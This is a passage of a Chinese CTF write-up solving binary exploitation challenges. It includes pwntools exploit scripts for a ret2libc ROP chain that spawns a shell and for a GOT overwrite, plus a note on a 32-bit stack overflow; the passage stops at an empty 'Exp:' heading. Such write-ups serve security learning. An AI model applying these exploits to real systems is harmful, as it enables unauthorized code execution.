 程序本身没有 `pop rdi` 等用于传递参数的 gadget，也没有可以 getshell 的函数（`system`、`execve` 等）需要从 libc 中获取。一般 glibc 中会有 `/bin/sh` 字符串和 `system` 函数，找到它们的偏移量，再通过给出的 `puts` 地址减去 `puts` 在 libc 中偏移量计算 `libc` 基址，配合 libc 中的 x86_64 传参 gadget（`pop rdi`...）就能 getshell 了。

此时再次遇到栈指针 16 字节对齐问题，通过在 ROP 链中添加空 gadget（仅 `ret`）将栈指针移动 8 字节解决。

Exp:

```python
from pwn import *

context(os="linux", arch="amd64")

io = ...
libc = ELF("./libc.so.6")

io.recvuntil(b"0x")
libc.address = int(io.recv(12), 16) - libc.sym["puts"]

payload = cyclic(9) + flat([
        libc.search(asm("pop rdi; ret;")).__next__() + 1, # 即 `ret`，用于栈指针对齐
        libc.search(asm("pop rdi; ret;")).__next__(),
        libc.search(b"/bin/sh\x00").__next__(),
        libc.sym["system"],
])
io.sendafter(b">", payload)

io.interactive()
```

## 这是什么？GOT！

`Partial RELRO`，程序直接读取输入至 GOT 表，覆盖 `exit` 项为 `unreachable` 地址即可。另外注意不要覆盖 `system` GOT 项初始值（还未调用）。

Exp:

``` python
from pwn import *

io = ...

system_plt_ld = 0x401056 # system GOT 初始值
unreachable = 0x401196

io.send(cyclic(0x10) + p64(system_plt_ld) + cyclic(0x20) + p64(unreachable))

io.interactive()
```

## 这是什么？32-bit！

`scanf("%[^\n]s", buf);` 无限长栈溢出（其实 `%s` 就好），32 位栈传参，覆盖栈上返回地址和参数即可。

Exp:
